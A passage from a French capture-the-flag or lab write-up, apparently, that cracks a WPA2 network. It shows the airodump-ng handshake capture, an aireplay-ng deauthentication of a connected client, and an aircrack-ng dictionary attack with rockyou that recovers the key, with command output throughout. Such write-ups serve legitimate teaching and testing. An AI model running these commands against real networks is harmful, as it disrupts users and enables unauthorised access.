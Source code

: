 Nous avons à présent besoin de deux instances {% include dictionary.html word="SSH" %} sur la machine distante afin de lancer notre attaque.

Avec la première instance, nous utilisons `airodump-ng` afin de capturer des paquets ***WPA handshake***

```bash
sudo airodump-ng -c 6 --bssid 02:[...expurgé...]:00 -w output-file wlan2
```

{% capture spoil %}
#Mode écoute
BSSID                  PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:[...expurgé...]:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

#Reçu
BSSID                  STATION                PWR   Rate    Lost    Frames  Notes  Probes

02:[...expurgé...]:00  02:[...expurgé...]:00  -29    0 - 1      0        3 
{% endcapture %}
{% include elements/spoil.html %}

Nous pouvons constater qu'une machine est actuellement connectée au réseau que nous analysons.

Depuis la deuxième instance nous utilisons `aireplay-ng` pour forcer la déconnexion du client.

```bash
sudo aireplay-ng -0 1 -a 02:[...expurgé...]:00 -c 02:[...expurgé...]:00 wlan2
11:09:02  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
11:09:02  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```

De retour dans la première instance, nous observons une note `EAPOL` apparaître indiquant qu'un nouveau *handshake* a eu lieu. Nous l'avons capturé grâce à `airodump-ng` et sauvegardé dans les fichiers `output-file*`

Maintenant que nous avons intercepté le *handshake* nous pouvons tenter de craquer le mot de passe avec `aircrack-ng`.

```bash
sudo aircrack-ng -a 2 -b 02:[...expurgé...]:00 -w /home/glitch/rockyou.txt output*cap
```

{% capture spoil %}
Reading packets, please wait...
Opening output-file-04.cap
Read 273 packets.

1 potential targets

                               Aircrack-ng 1.6 

      [00:00:00] 512/513 keys tested (1161.16 k/s) 

      Time left: 0 seconds                                      99.81%

                        KEY FOUND! [ ...expurgé... ]


      Master Key     : 54 42 17 98 25 7C 66 3C 5D 2A A4 C8 0A AC 37 E6 
                       80 92 EC FE 5E EE C3 AC DB 1D 80 6C 6D 54 D3 5E 
